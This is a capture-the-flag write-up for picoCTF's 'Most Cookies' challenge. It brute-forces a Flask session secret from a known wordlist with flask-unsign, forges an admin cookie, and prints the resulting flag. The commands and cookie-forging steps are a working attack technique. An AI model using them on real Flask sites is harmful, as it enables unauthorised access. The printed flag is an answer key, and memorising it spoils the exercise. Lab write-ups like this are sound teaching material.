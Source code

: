 # **_Most Cookies_**
## Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! `server.py` `http://mercury.picoctf.net:35697/`
## Solution
Anaylse `server.py`, notice that it is looking for a `very_auth` cookie with the value `admin`,
```py
@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```
At the begining of the python code, the webserver randomly chooses a value from the `cookies_name` list as the secert key
```py
app.secret_key = random.choice(cookie_names)
```
When we vist the webserver, we get a cookie `session`, which is a `Flask-session-cookie`
Instead of encrypt, `Secret key` is used to sign the cookie, lets bruteforce the secert key with `flask-unsign`
Make a wordlist with the `cookie_names` list
```console
❯ cat secrets.txt
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
```
Get the initial session cookie value from the webserver and bruteforce it with the wordlist
```console 
❯ flask-unsign -u -c "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YtCy0A.FI_Yr4OF0Nx63T-LLXm1Kn2adwY" -w secrets.txt
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
```
Sign `{'very_auth':'admin'}` with secret key `peanut butter`
```console
❯ flask-unsign -s -S "peanut butter" -c "{'very_auth':'admin'}"
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YtC0jg._pPEAwvXYQ0g9wDwnATJV0-i26A
```
Go to `http://mercury.picoctf.net:35697/ ` and change `session` cookie value to the signed flask cookie, refresh the page to get the flag
>picoCTF{pwn_4ll_th3_cook1E5_22fe0842}



